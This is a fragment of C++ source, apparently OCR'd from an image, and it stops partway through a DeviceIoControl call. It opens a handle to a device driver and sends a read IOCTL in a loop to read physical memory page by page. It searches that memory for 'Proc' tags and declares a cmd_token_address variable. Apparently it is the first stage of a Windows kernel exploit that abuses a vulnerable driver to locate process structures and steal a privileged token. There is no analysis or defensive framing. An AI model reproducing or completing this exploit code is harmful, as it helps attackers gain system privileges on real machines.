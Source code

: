 ```cpp

INT64 cmd_token_address = 0;

HANDLE grab_handle(const char* device_name) {

    HANDLE hFile = CreateFileA(
        device_name,
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        0,
        NULL);

    if (hFile == INVALID_HANDLE_VALUE)
    {
        cout << "[!] Unable to grab handle to " << DEVICE_NAME << "\n";
        exit(1);
    }
    else
    {
        cout << "[>] Grabbed handle 0x" << hex
            << (INT64)hFile << "\n";

        return hFile;
    }
}

PROC_DATA read_mem(HANDLE hFile) {

    cout << "[>] Reading through RAM for Proc tags...\n";
    DWORD num_of_bytes = 0x1000;

    LPVOID output_buff = VirtualAlloc(NULL,
        0x100c,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE);

    PROC_DATA proc_data;

    int proc_count = 0;
    INT64 iteration = 0;
    while (true) {

        INT64 start_address = START_ADDRESS + (0x1000 * iteration);
        if (start_address >= 0x240000000) {
            cout << "\n[>] Max address reached.\n";
            cout << "[>] Number of iterations: " << dec << iteration << "\n";
            return proc_data;
        }

        READ_INPUT_BUFFER input_buff = { start_address, num_of_bytes };

        DWORD bytes_ret = 0;

        //cout << "[>] User buffer allocated at: 0x" << hex << output_buff << "\n";
        //Sleep(500);

        if (DeviceIoControl(
            hFile,
            READ_IOCTL,
            &input_buff,
            0x40,
```
